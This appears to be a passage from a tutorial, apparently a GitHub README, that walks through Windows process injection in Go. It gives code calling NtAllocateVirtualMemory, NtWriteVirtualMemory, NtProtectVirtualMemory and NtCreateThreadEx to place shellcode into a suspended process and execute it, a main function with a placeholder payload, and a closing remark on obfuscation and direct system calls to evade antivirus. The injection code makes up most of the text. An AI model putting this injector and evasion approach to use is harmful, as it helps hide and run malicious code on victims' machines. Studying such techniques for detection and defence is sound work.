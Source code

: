 ``` golang
ntAllocateVirtualMemory.Call(uintptr(pi.Process), uintptr(unsafe.Pointer(&lpBaseAddress)), 0, uintptr(unsafe.Pointer(&size)), windows.MEM_COMMIT|windows.MEM_RESERVE, windows.PAGE_READWRITE)

```
Next we'll write the shellcode to the allocated space this is done by writing to the process at lpBaseAddress this is the begining of the allocated space on the stack from above.

```golang 
ntWriteVirtualMemory.Call(uintptr(pi.Process), lpBaseAddress, uintptr(unsafe.Pointer(&shellcode[0])), uintptr(size), 0)
```

Having allocated and wrote the memory to the process the next step is to change the page permissions to allow the execution of code flow

``` golang
ntProtectVirtualMemory.Call(uintptr(pi.Process), uintptr(unsafe.Pointer(&lpBaseAddress)), uintptr(unsafe.Pointer(&size)), windows.PAGE_EXECUTE_READ, uintptr(unsafe.Pointer(&oldProtect)))
```

Finnaly having allocated , wrote and changed the permission on the stack we can now create a remote thread on the suspended process and call execution of our code by pointing the thread entry point to lpBaseAddress

```golang
ntCreateThreadEx.Call(uintptr(unsafe.Pointer(&pi.Thread)), windows.GENERIC_EXECUTE, 0, uintptr(pi.Process), lpBaseAddress, lpBaseAddress, 0, 0, 0, 0, 0)
```
### PWN

Now that the code for spawning a process and writing to it are written we can call them like this 


```golang
func main(){
    x := []byte{ 0x90 , 0x90}
    runpe(x)
}
```


### Now what?

In the applications current state it should be reletivly detactable by most consumer anti viruses moving on from here in attempts to evade AV's we could look at obstructification of the code or attempting to proform direct system calls to bypass user land hooks